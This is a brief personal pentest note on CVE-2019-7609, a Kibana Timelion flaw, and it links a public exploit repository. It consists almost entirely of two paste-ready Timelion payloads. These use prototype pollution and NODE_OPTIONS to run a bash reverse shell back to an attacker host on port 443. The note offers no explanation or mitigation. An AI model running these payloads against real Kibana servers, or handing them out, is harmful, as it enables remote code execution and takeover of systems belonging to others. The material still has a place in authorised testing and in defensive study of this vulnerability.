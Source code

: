 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/mpgn/CVE-2019-7609

![[rlwrap]]

Left side menu > Timelion > Try one of the following 2 exploits:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/$KALI/443 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$KALI/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

